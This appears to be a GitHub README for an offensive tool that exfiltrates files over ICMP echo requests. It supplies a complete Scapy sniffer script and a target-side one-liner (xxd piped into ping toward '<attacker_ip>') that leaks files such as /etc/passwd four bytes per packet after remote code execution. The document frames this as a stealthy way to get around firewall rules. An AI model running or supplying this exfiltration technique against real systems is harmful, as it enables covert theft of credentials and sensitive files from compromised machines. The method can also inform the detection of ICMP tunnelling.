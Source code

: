 # **ICMP Sniffer for Data Exfiltration**

This tool demonstrates a method to **exfiltrate data** from a vulnerable machine using **Remote Code Execution (RCE)** via **ICMP ping packets**. It's designed for scenarios where establishing a reverse shell or listing directories isn't possible. Instead, it allows the transfer of file contents over **ICMP Echo Requests**.

## **Overview**

When **RCE** is available on a target system (whether through a **web shell**, direct command execution, or any other form of **RCE**), but network restrictions prevent the use of common exfiltration methods like reverse shells, this tool helps **exfiltrate sensitive data** by transferring it through **ICMP packets**.

## **How It Works**

- **On the Target Machine**:
    - When you have **RCE** access (via a **web shell** or any method), run a command to **convert a file** (e.g., `/etc/hosts`, `/etc/passwd`) into **hexadecimal format** and send the content **4 bytes at a time** via **ICMP ping packets**.

- **On the Attacker Machine**:
    - Use the **ICMP Sniffer script** to listen for incoming **ping requests** and extract the file contents.
    
This method bypasses traditional firewall rules and can **exfiltrate data in a stealthy manner**.

## **Requirements**

- Python 3.x
- Scapy library
- Root privileges (to sniff ICMP packets)

## **Usage**

### 1. **icmp_sniffer.py**

This Python script listens for **ICMP Echo Requests** and extracts the data sent within them.

```python
#!/usr/bin/python3

from scapy.all import *
import signal, sys, time

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+C handler
signal.signal(signal.SIGINT, def_handler)

def data_parser(packet):
    if packet.haslayer(ICMP):
        if packet[ICMP].type == 8:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush=True, end='')

if __name__ == '__main__':
    sniff(iface='tun0', prn=data_parser)  # Change "tun0" if needed
```
### 2. **Command for the Target Machine**
Run the following on the target machine (with RCE access, such as through a web shell or another method) to exfiltrate the contents of a file via ICMP:

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attacker_ip>; done
```

### 3. **Run the Sniffer**
On the attacker's machine, use the **icmp_sniffer.py** to listen for the incoming ICMP packets:

```bash
sudo python3 icmp_sniffer.py
```
You will see the contents of the file printed on your terminal as it is exfiltrated.
